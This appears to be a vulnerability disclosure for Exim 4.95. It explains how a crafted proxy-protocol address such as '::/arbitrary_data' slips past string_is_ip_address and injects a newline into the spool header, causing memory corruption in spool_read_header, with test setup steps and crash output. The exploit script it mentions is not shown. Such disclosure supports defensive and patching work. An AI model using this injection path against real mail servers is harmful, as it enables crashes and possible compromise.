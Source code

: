 Exim 4.95 remote newline injection.
Very interesting vulnerability which I found some time ago.

```
int
string_is_ip_address(const uschar *s, int *maskptr)
{
int yield = 4;

...
    if (Ustrchr(s, ':') != NULL)
  {
  BOOL had_double_colon = FALSE;
  BOOL v4end = FALSE;

  yield = 6;

[1]  if (*s == ':' && *(++s) != ':') return 0;

  for (int count = 0; count < 8; count++)
    {
[2]    if (*s == 0 || *s == '%' || *s == '/') return had_double_colon ? yield : 0;
 
    if (*s == ':')
      {
      if (had_double_colon) return 0;
[3]      had_double_colon = TRUE;
      s++;
      continue;
      }
    ...
}
```

string_is_ip_address() function verifies that supplied string is a valid IPv4/IPv6 address.
If the input string will be '::/arbitray_data' (without quotes), on line #1 we bypass the check.
Now on first pass check on line #2 will be false, we will go to line #3 and set had_double_colon.
On next iteration we return out of the for loop (line #2) with yield=4.

The function is used in a lot of places. 
One of them is setup_proxy_protocol_host() which setup proxy connection. 
Exim has builin proxy support - https://exim.org/exim-html-4.93/doc/html/spec_html/ch-proxies.html
```
from setup_proxy_protocol_host():
    if(!string_is_ip_address(p, NULL))
    {
    DEBUG(D_receive)
      debug_printf("Proxied src arg is not an %s address\n", iptype);
    goto proxyfail;
    }
  proxy_local_address = sender_host_address;
  sender_host_address = p;
```

As you can see, we can control sender_host_address.
If sender_host_address contains '\n' character, we can inject '\n' to spool header file.
Lately, when exim tries to deliver a message, the following code will be invoked:

```
    int
spool_read_header(uschar *name, BOOL read_headers, BOOL subdir_set)
{
...
  
  else if (*p == '#')
    {
    int flags;

#if !defined (COMPILE_UTILITY)
    DEBUG(D_deliver) debug_printf_indent("**** SPOOL_IN - Exim standard format spoolfile\n");
#endif

    (void)sscanf(CS p+1, "%d", &flags);

    if ((flags & 0x01) != 0)      /* one_time data exists */
      {
      int len;
      while (isdigit(*(--p)) || *p == ',' || *p == '-');
[1]      (void)sscanf(CS p+1, "%d,%d", &len, &pno);
      *p = 0;
      if (len > 0)
        {
[2]        p -= len;
[3]        errors_to = string_copy_taint(p, TRUE);
        }
      }

[4]    *(--p) = 0;   /* Terminate address */

```

We control contents of spool file, thus we can control the value of 'len' var (line #1).

On line #2 'p' will be shifted by our 'len' and on line #4 
null byte will be written to new location.
Line #3 is also interesting, because it allows us to set 'errors_to' to arbitrary location in memory as well. It could be used to leak part of memory, but i have not tested it.



How to test:
$ cd exim-4.95
$ edit Local/Makefile, enable SUPPORT_PROXY=YES
 
On Ubuntu you can install exim4-daemon-heavy, it has SUPPORT_PROXY compiled in.

Edit exim configure file, add 'hosts_proxy = *' option.

Run exim:
#/var/exim/bin/exim -bd -d

Run t1.py
It will print message-id.

Part of exim debug output:
```
Non-recipients:
 8303  Empty Tree
 8303 ---- End of tree ----
 8303 recipients_count=1
 8303 **** SPOOL_IN - Exim standard format spoolfile
 8303 LOG: MAIN PANIC
 8303   SIGSEGV (maybe attempt to write to immutable memory)
```

How to test the spool_read_header() crash:
```
# gdb -q /var/exim/bin/exim
(gdb) r -d -M XXXXXXX
Program received signal SIGSEGV, Segmentation fault.
0x000055d97e959560 in spool_read_header ()
(gdb) bt
#0  0x000055d97e959560 in spool_read_header ()
#1  0x000055d97e8f48f4 in deliver_message ()
#2  0x000055d97e9049b7 in main ()
(gdb) x/10i $pc
=> 0x55d97e959560 <spool_read_header+5268>:	repnz scas %es:(%rdi),%al
   0x55d97e959562 <spool_read_header+5270>:	mov    %rcx,%rax
   0x55d97e959565 <spool_read_header+5273>:	not    %rax
   0x55d97e959568 <spool_read_header+5276>:	lea    -0x1(%rax),%rsi
   0x55d97e95956c <spool_read_header+5280>:	mov    $0x385,%r8d
   0x55d97e959572 <spool_read_header+5286>:
    lea    0x4ca87(%rip),%rcx        # 0x55d97e9a6000 <__FUNCTION__.19882>
   0x55d97e959579 <spool_read_header+5293>:	mov    $0x1,%edx
   0x55d97e95957e <spool_read_header+5298>:	mov    %rbp,%rdi
   0x55d97e959581 <spool_read_header+5301>:	callq  0x55d97e9579cb <string_copyn_taint_trc>
   0x55d97e959586 <spool_read_header+5306>:	mov    %rax,%r14
(gdb)
```

